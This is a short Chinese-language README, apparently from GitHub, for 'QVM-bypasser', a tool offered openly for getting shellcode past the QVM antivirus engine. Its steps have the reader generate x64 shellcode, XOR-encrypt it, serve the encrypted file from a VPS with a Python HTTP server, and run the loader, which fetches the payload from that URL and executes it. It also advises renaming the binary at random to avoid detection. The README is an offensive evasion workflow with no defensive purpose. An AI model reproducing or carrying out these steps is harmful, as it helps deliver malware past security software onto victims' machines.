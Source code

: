 # QVM-bypasser

使用简单的回调函数bypassQVM引擎查杀



## 使用方法

1、生成x64位的shellcode

![image-20231202143904504](images\1.png)

2、使用xor.exe进行异或

```
Usage: xor.exe <input_filename> <output_filename> <key>
```



![image-20231202144301920](images\2.png)

3、将生成的 enc.bin 文件上传到 VPS ，开启 HTTP 服务

```
python -m http.server 80
```

![image-20231202144526524](images\3.png)

4、执行加载

使用之前最好将文件名改一下，改成随机的

```
Usage: QVM-bypasser.exe <url> <xor_key>
```

![image-20231202144716758](images\4.png)

![image-20231202144833469](images\5.png)



## 截图

![image-20231202150806484](images\6.png)